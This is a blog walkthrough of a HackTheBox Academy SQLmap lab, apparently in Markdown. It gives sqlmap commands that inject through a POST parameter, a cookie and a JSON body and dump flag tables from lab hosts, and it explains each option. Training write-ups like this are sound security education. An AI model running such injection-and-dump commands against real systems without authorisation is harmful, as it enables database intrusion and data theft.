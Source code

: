 ```yaml
---
title: "SQLmap Essentials - HackTheBox"
date: 2025-01-07 00:00:00 +0300
categories: [SQLmap Essentials]
tags: [SQLmap Essentials, cheatsheet]
---
```



# SQLmap Essentials 

Hello there, welcome to my first blog of the year. 

This lab series is part of the [Bug Bounty Hunter Path](https://academy.hackthebox.com/path/preview/bug-bounty-hunter) of HackTheBox. This module aims to teach you the basics of using SQLMap to discover various types of SQL Injection vulnerabilities, all the way to the advanced enumeration of databases to retrieve all data of interest.

I enjoyed this lab very much I had to write this blog as I run a SQLmap payload on the final skill assessment question which is currently taking too long 🥱.

I hope you enjoy perusing this walkthrough as much as I did writing it.

Also find a cheatsheet of the lab the end of the blog

# Running SQLmap on a HTTP Request

We are provided with a target that leads to a page that displays links to the different Cases respective of the questions.
 
 ![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials1.png)



Questions:


`1. What's the contents of table flag2? (Case #2)`

There is an 'id' parameter that is used to retrive rows of a table from a database. 

This indicates it is a POST request. This might help us in writing the command.

`sqlmap  'http://SERVERIP:PORT/case2.php' --data='id=*1' --batch --dump -T flag2` 

From the command:


    --data - speecifies that the HTTP data provided should be sent in a POST request.

    id=*1 - This is the parameter of interest. The asterisk is a custom injection marker. 

    --batch - allows the running of the command without any user input.

    --dump - displays data from a specified database table.

    -T - specifies database table.


`2. What's the contents of table flag3? (Case #3)`

The cookie value id is vulnerable.

`sqlmap 'http://SERVERIP:PORT/case3.php'  --cookie='id=1*' --batch --dump  -T flag3`

From the command:

    --cookie - specifies the HTTP cookies that should be sent with the POST requests.


`3. What's the contents of table flag4? (Case #4) `

There is a vulnerability in a JSON value for data: id. 

While JSON data is parsed differently in a HTTP request we may use a tool like BURP or Curl to capture the raw HTTP request and output it to a file. We then use the file in the command.

We will use Burpsuite for this.

![Alt Text](../assets/img/SQLMap-Essentials/sqlmap-essentials2.png)


`sqlmap -r req.txt  --batch --dump  -T flag4 `

While it is applicable in this lab, we may also use the following command.

`sqlmap -u 'http://94.237.50.242:49319/case4.php'  --data={'"id":1'} --batch --dump  -T flag4`




